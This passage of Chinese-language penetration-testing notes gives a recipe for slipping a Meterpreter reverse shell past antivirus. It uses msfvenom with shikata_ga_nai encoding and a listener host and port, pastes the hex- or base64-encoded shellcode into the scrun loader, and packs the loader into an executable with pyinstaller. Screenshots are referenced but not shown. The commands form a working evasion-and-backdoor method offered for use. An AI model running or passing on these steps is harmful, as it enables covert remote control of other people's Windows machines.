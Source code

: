   #### hex
	生成c格式payload
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f c -o /var/www/html/shell.c
	下载k8final
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/65.png)

	粘贴shellcode进去
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/66.png)

	使用
	https://github.com/k8gege/scrun

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/67.png)

	或
	>python scrun.py xxx
	或
	编译ScRunHex.py为exe
  #### Base64(*)
	生成c格式payload
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f c -o /var/www/html/shell.c
	下载k8final

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/68.png)

	粘贴shellcode进去
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/69.png)

	进行hex编码后，粘贴进去base64编码
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/70.png)

	看系统位数编译ScRunBase.py文件，使用pyinstaller打包为exe后执行
	https://gitee.com/RichChigga/scrun/blob/master/ScRunBase64.py
	>python pyinstaller-script.py -F -w ScRunBase64.py
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/71.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/72.png)